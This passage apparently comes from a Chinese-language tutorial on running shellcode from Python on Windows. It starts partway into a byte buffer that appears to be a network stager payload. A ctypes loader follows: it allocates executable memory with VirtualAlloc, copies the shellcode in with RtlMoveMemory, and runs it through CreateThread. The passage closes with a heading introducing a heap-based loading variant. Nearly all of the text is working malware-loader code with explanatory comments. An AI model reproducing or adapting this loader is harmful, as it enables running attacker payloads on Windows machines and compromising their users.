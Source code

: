 ```python
buf += b"\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9"
buf += b"\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8"
buf += b"\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20"
buf += b"\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00"
buf += b"\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4"
buf += b"\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
buf += b"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba"
buf += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
buf += b"\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00"
buf += b"\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41"
buf += b"\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c"
buf += b"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6"
buf += b"\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
buf += b"\xf0\xb5\xa2\x56\xff\xd5"

#bytearray()函数返回一个新字节数组
shellcode= bytearray(buf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```



# 4.通过堆加载

这段代码首先创建了一个具有执行权限的堆，然后在堆中分配内存并将shellcode复制到内存中。最后，代码通过直接调用存储在内存中的shellcode来执行它
